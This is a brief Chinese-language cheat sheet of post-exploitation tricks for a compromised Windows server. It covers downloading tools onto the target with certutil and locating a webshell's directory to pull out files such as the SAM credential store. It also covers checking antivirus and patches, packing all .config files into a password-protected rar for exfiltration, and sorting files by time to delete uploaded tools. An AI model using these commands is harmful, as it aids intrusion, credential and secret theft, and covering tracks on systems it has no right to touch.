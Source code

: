 ## 内网技巧

### 在目标机器上下载

1. 使用certutil命令

    `certutil.exe -urlcache -split -f https:// file.txt`

### 从目标机器下载文件

1. 通过web目录从目标机器上下载文件(如sam文件等),找到web目录：

    `dir ../ /s /b | findstr [name of webshell] `

### 查看杀软

```
dir c:\program~1
dir c:\program~2
```

### 查看最新补丁

`wmic qfe`

### 压缩文件

1. rarlab下载rar.exe

2. 上传至目标服务器

3. 压缩所有的config文件：

    `
    rar.exe a -r -hpshark -m5 c:\wwwroot\enr\resources\file\storefrontpic\1.rar c:\wwwroot\*.config
    `

    a：表示压缩

    -r：递归压缩

    -hp：压缩包加密

    -m5：分片

### 文件按时间排序(用于删除上传的工具)

`dir /od`
